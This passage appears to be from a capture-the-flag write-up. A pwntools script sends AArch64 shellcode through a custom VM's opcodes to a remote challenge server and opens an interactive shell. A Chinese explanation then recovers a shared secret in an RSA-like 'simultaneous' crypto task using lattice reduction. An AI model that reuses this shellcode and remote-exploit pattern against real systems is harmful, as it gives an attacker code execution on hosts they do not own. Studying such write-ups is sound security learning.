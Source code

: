 
### quite
```python
#coding=utf-8
from pwn import*
'''
X22: 0x100000000000
X21: OPCode_Memory
N:0 Index:0x28;  X22 --;opcode+=1
N:1	Index:0x29;  X22 ++;opcode+=1
N:2	Index:0x2A; [X22]++;opcode+=1;
N:3	Index:0x2F; [X22]--;opcode+=1;
N:4	Index:0x40; _IO_putc(X22);opcode+=1;
N:5	Index:0x23; _IO_getc(X22);opcode+=1;
N:6	Index:0x5B; 
N:7	Index:0x5D;
N:8	Index:0x00;
N:9	Index:0x47; Call 0x100000000000
N:A Index:0x01; Default;
'''
#p = process(['qemu-aarch64','-g','6666','-L','.','./main'])
p = remote('8.140.179.11',51322)
shellcode = '\xE1\x45\x8C\xD2\x21\xCD\xAD\xF2\xE1\x65\xCE\xF2\x01\x0D\xE0\xF2\xE1\x8F\x1F\xF8\xE1\x03\x1F\xAA\xE2\x03\x1F\xAA\xE0\x63\x21\x8B\xA8\x1B\x80\xD2\xE1\x66\x02\xD4'

p.send('\x23\x29'*len(shellcode) + '\x47')

sleep(0.5)
p.send(shellcode)
p.interactive()
```



## Crypto

### simultaneous

审计代码，发现x和y大小均约为381bit，z约为631bit，e和N为1024bit。
首先发现x很小且三次加密时所用的x相同，而e*x-y*N=y*(p+q+1)-z_只有约893bit，与e和N相比都很小，所以构造格子进行格基规约：
sage: A = matrix(ZZ,4,[2**512,0,0,0,e1,-n1,0,0,e2,0,-n2,0,e3,0,0,-n3])
sage: B = A.transpose()
sage: C = B.LLL()
sage: C[0]
(8866336715717388426172963523471330954077188809904909656840498650956244748060448654334827362938608283011460454932611722549140899975837332516255422319218997339352725870280417222934472617692234368327945625080892989434758573490606357931772643305970422681049000558333001728, 23565804679746565933710388872729524528226359415562140615287656018817455800535466780287799003178367701822507942125498993654311133503025992126025046704035560696109076086415547740763302445007651443569886959741145900119997240641197056821966126478523677707529102803982641184, 108960871214576793022207296445632894090843538519696872165557959140648817747262325676571075528643507778206273055515718254598755429648600953278539486434738401784633970948810856056270409547951407224850758488218814477712938397264786375512963038875176200582202541244988064762, 104724522928227808113699830194721186205703616771719604100697952234782584810976846111816114359575185225135299113577201578471709313075817367107222881505195506424821820424051124267603014862466153889752001180168723756986189763744130308518039129969039000165646079670467289202)
sage: x = C[0][0]>>512
sage: x
661281602633708663826486920028427898009447098405701242291443669957936453059596989424786500921975783032016279781143
sage: isPrime(x)
1
构造如上所述的格子，可以从格基规约的结果中快速得到x。
得到x之后，仍然根据e*x-y*N=y*(p+q+1)-z_<N，得到y=e*x//N，所以三次的y都可以用这个等式求出来。
sage: y3 = e3*x//n3